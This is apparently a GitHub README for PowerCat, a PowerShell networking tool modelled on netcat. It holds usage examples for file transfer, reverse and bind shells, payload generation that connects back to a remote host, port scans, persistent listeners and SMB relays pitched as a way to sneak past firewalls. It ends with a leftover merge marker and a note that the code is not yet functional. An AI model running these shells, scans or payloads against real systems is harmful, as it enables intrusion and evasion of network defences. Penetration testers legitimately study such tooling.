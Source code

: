 PowerCat
========
A PowerShell TCP/IP swiss army knife that works with Netcat & Ncat.

Installation
------------
PowerCat is packaged as a PowerShell module.  You need to import the module to use its functions.
###
```powershell
    # Import the functions from downloaded psd1 File:
    Import-Module PowerCat.psd1
```
### Functions & Parameters:
```powershell    
    Start-PowerCat # This starts a listener/server.
    
    -Mode           # Defaults to Tcp, can also specify Udp or Smb.
    -Port           # The port to listen on.
	-PipeName       # Name of pipe to listen on.
	
    -Relay          # Format: "<Mode>:<IP>:<Port/PipeName>"
    -Execute        # Execute a console process or powershell.
    -SendFile       # Filepath of file to send.
    -ReceiveFile    # Filepath of file to be written.
    -Disconnect     # Disconnect after connecting.
    -KeepAlive      # Restart after disconnecting.
    -Timeout        # Timeout option. Default: 60 seconds
	
	Connect-PowerCat # This connects a client to a listener/server.
	
    -Mode           # Defaults to Tcp, can also specify Udp or Smb
	-RemoteIp       # IPv4 address of host to connect to.
    -Port           # The port to connect to.
	-PipeName       # Name of pipe to connect to.
	
    -Relay          # Format: "<Mode>:<IP>:<Port/PipeName>"
    -Execute        # Execute a console process or powershell.
    -SendFile       # Filepath of file to send.
    -ReceiveFile    # Filepath of file to be written.
    -Disconnect     # Disconnect after connecting.
    -Timeout        # Timeout option. Default: 60 seconds
```
Basic Connections
-----------------------------------
By default, PowerCat uses TCP and reads from / writes to the console.
###
```powershell
    # Basic Listener:
    Start-PowerCat -Port 443
        
    # Basic Client:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443
```
File Transfer
-------------
PowerCat can be used to transfer files using the -SendFile and -ReceiveFile parameters.
###
```powershell
    # Send File:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -SendFile C:\pathto\inputfile
        
    # Receive File:
    Start-PowerCat -Port 443 -ReceiveFile C:\pathto\outputfile
```
Shells
------
PowerCat can be used to send and serve (Power)shells using the -Execute parameter.
###
```powershell
    # Serve a shell:
    Start-PowerCat -Port 443 -Execute
        
    # Send a cmd Shell:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -Execute
```
UDP and SMB
-----------
PowerCat supports more than sending data over TCP. 
###
```powershell
    # Send Data Over UDP:
    Start-PowerCat -Mode Udp -Port 8000
        
    # Send Data Over SMB (easily sneak past firewalls):
    Start-PowerCat -Mode Smb -PipeName PowerCat
```
Relays
------
Relays in PowerCat are similar to netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
```powershell
    # UDP Listener to TCP Client Relay:
    Start-PowerCat -Mode Udp -Port 8000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to UDP Client Relay:
    Start-PowerCat -Port 8000 -Relay udp:10.1.1.16:53
        
    # TCP Client to Client Relay
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to SMB Listener Relay
    New-PowerCat -Listener -Port 8000 -Relay smb:PowerCat
```
Generate Payloads
-----------------
Payloads can be generated using the New-PowerCatPayload function. 
###
```powershell
    # Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
    New-PowerCatPayload -RemoteIp 10.1.1.15 -Port 443 -Execute 
        
    # Generate a bind tcp encoded command which listens on port 8000:
    New-PowerCatPayload -Listener -Port 8000 -Execute
```
Misc Usage
----------
PowerCat can also be used to perform port-scans, and start persistent listeners.
###
```powershell
    # Basic TCP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
    
    # Basic UDP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -Mode Udp -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose }
        
    # Persistent listener:
    Start-PowerCat -Port 443 -Execute -KeepAlive
```
=======
```powershell
Write-Warning 'PowerCat is under construction. Check back soon for updates.'
Write-Warning 'I will remove this warning when the code is functional.'
Write-Warning 'If you want to follow along, check out the working branch.'
